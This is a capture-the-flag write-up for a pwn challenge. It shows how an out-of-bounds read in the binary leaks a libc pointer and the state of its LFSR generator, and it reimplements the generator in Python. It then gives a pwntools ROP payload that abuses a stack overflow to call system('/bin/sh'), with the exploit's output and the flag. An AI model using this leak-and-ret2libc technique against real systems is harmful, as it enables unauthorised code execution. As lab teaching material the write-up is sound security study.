

# Dreams Lift Us Up

- Category: pwn

"the metropolis uplink hands out beacon bits and guards its privileged frame with a number only it should be able to predict. should."

The prompt frames this as PRNG prediction, and there *is* a 64-bit LFSR to break. But the binary also hands out its own internal state through an out-of-bounds read, so the intended cryptanalysis turns out to be optional — worth doing anyway, because it doubles as a check that you read the generator correctly.

### Solution:

##### 1. Three ops, one shared state

`dreams` is non-PIE with **no canary** and Partial RELRO. The ops:

```
B beacon  [u16 n]   print n LFSR output bits as '0'/'1'
G glimpse [u16 k]   echo k bytes of the banner
L lift    [u16 n]   generate a token, then read n bytes
Q quit
```



##### 2. `glimpse` reads past the end of its banner

`sub_401375` rewrites a fixed banner into `0x404080` on every call, then echoes `k` bytes of it:

```asm
0040137a:  mov    rax,qword ptr [0x404060]   ; stdout (a COPY reloc)
00401381:  mov    qword ptr [0x404098],rax
00401388:  mov    rax,0x20656e614c796b53     ; "SkyLane "
...
004013d0:  cmp    bx,0x100
004013d5:  ja     0x40140d                   ; k <= 0x100 is the ONLY check
004013e6:  movzx  edx,bx
004013e9:  mov    esi,0x404080
004013f3:  call   0x4010b0                   ; write(1, 0x404080, k)
```

The banner is 22 bytes. `k` may be 256. Nothing checks `k` against the banner length, and `write` emits raw bytes, so NUL padding does not stop the read. What follows the banner in `.bss` is the entire prize:

```
0x404080  "SkyLane uplink online\n"   22 bytes
0x404098  stdout                      -> &_IO_2_1_stdout_ in libc
0x4040a0  the LFSR state
```

So `G 0x100` leaks a libc pointer at offset `0x18` **and the raw generator state** at offset `0x20`. The number "only it should be able to predict" is simply readable.

##### 3. Reproducing the generator

`lift` (`sub_4012a2`) steps the LFSR 64 times and packs the output bits into the token it will later demand:

```asm
004012c7:  mov    rdi,rax
004012ca:  shr    rdi,0x1
004012cd:  mov    edx,eax
004012cf:  and    edx,0x1              ; out = state & 1
004012d2:  mov    rax,r8               ; 0
004012d5:  cmovnz rax,r9               ; POLY = 0xad93d23594c935a9
004012d9:  xor    rax,rdi              ; state = (state >> 1) ^ (out ? POLY : 0)
004012dc:  movsxd rdx,edx
004012df:  shl    rdx,cl
004012e2:  or     rsi,rdx              ; token |= out << i
```

A Galois LFSR, output bit = the bit shifted out, token bit `i` = output bit `i`:

```python
POLY = 0xAD93D23594C935A9

def lift_token(state):
    tok = 0
    for i in range(64):
        b = state & 1
        state = (state >> 1) ^ (POLY if b else 0)
        tok |= b << i
    return tok
```

`beacon` runs the identical recurrence and prints each output bit as ASCII, which makes it a free oracle for checking the model: leak the state with `G`, predict 64 bits, then ask for 64 beacon bits and compare.

```
state    : 0x76ae4ee06c055ece
predicted: 0101101010000101010000000111001000110010101110110010000000000111
actual   : 0101101010000101010000000111001000110010101110110010000000000111
MATCH
```

Had the leak not existed, the same recurrence is linear over GF(2), so 64 beacon bits give 64 equations in the 64 unknown state bits — recoverable by inverting a 64x64 matrix. The leak just makes that unnecessary.

##### 4. `lift` overflows a 64-byte frame

With the token settled, the rest of `sub_4012a2` is an ordinary smash:

```asm
004012f4:  mov    qword ptr [rsp + 0x8],rsi   ; token
0040130c:  cmp    ax,0x200
00401310:  ja     0x40134b                    ; n <= 0x200
00401315:  lea    rdi,[rsp + 0x10]            ; ...into a 64-byte buffer
0040131a:  call   0x4011f6
00401324:  lea    rsi,[rsp + 0x8]
00401329:  lea    rdi,[rsp + 0x50]
0040132e:  call   0x4010e0                    ; memcmp(rsp+0x50, token, 8)
```

`SUB RSP,0x58` puts the saved return address at `rsp+0x58`. Relative to the input buffer at `rsp+0x10`:

| offset | contents |
|---|---|
| `0x00`–`0x40` | the 64-byte buffer |
| `0x40` | token comparison target (`rsp+0x50`) |
| `0x48` | saved return address (`rsp+0x58`) |

The token sits at `rsp+0x8`, *below* the input buffer, so the copy cannot clobber it — the comparison is against a value we have to get right, not one we can overwrite. Failing it calls `_exit(1)`; passing it returns normally, straight into whatever we put at offset `0x48`.

No canary means there is nothing else in the way:

```python
payload = flat({
    0:  b"A" * 64,
    64: p64(lift_token(state)),
    72: [ret, pop_rdi, next(libc.search(b"/bin/sh\x00")), libc.sym["system"]],
})
io.send(b"L" + p16(len(payload)) + payload)
```

```
[+] stdout       = 0x7ff2fa81b780
[+] libc base    = 0x7ff2fa600000
[+] LFSR state   = 0x1323ff8eb1709014
[+] lift token   = 0x3c5b413b7508a14c
[+] token accepted - returning into ROP chain
sunctf26{h0p3_l1fts_us_but_th3_lfsr_g4v3_y0u_th3_k3ys}
```

Full script: [solve.py](solve.py)

**Flag:** `sunctf26{h0p3_l1fts_us_but_th3_lfsr_g4v3_y0u_th3_k3ys}`

### Takeaways

- When a challenge advertises a hard subproblem ("a number only it should be able to predict"), check whether some other op just *tells* you the answer before building the solver. Here a bounds check on the echo length would have forced real LFSR cryptanalysis; without it, the state sits ten bytes past the end of a 22-byte banner.
- A global written once and read by several ops is worth mapping in `.bss` order. `stdout`, the state and the banner being adjacent is what turned one length bug into both the ASLR bypass and the PRNG break.
- An output-only op that runs the same generator as the guarded one is a free correctness oracle. Checking `lift_token` against `beacon` bit-for-bit costs one packet and settles the reimplementation before it is load-bearing — cheaper than debugging a silent `_exit(1)` later and not knowing whether the generator or the stack layout was wrong.
